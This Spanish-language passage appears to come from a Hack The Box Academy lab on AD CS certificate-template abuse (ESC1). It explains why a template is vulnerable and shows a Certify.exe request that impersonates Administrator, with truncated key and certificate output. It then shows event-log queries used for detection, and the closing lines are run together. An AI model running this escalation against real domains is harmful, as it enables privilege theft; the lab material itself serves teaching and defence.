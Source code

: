 ```powershell
Certify completed in 00:00:00.9120044

```

![](https://academy.hackthebox.com/storage/modules/176/A13/certifyRequest.png)

Al verificar la sección 'Plantillas de certificados vulnerables' desde la salida de Certify, veremos que se enumera una sola plantilla con mucha información al respecto. Podemos decir que el nombre de la CA en el medio ambiente es`PKI.eagle.local\eagle-PKI-CA`, y la plantilla vulnerable se nombra`UserCert`. La plantilla es vulnerable porque:

- Todos los usuarios de dominio pueden solicitar un certificado en esta plantilla.
- La bandera[Ct_flag_enrollee_supplies_subject](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/1192823c-d839-4bc3-9b6b-fa8c53507ae1)está presente, lo que permite al solicitante especificar el`SAN`(Por lo tanto, cualquier usuario puede solicitar un certificado como cualquier otro usuario en la red, incluidos los privilegiados).
- No se requiere la aprobación del gerente (el certificado se emite inmediatamente después de la solicitud sin aprobación).
- El certificado se puede utilizar para 'autenticación del cliente' (podemos usarlo para inicio de sesión/autenticación).

Para abusar de esta plantilla, usaremos`Certify`y pasar el argumento`request`Al especificar el nombre completo de la CA, el nombre de la plantilla vulnerable y el nombre del usuario, por ejemplo,`Administrator`:

PKI - ESC1

```powershell
PS C:\Users\bob\Downloads> .\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Request a Certificates

[*] Current user context    : EAGLE\bob
[*] No subject name specified, using current context as subject.

[*] Template                : UserCert
[*] Subject                 : CN=bob, OU=EagleUsers, DC=eagle, DC=local
[*] AltName                 : Administrator

[*] Certificate Authority   : PKI.eagle.local\eagle-PKI-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 36

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIE...
<SNIP>
<SNIP>
wgP7EwPpxHKOrlZr6H+5lS58u/9EuIgdSk1X3VWuZvWRdjL15ovn
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGLzCCBRegAwIBAgITFgAAACx6zV6bbfN1ZQAAAAAALDANBgkqhkiG9w0BAQsF
```

[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *Message              : Certificate Services received a certificate request.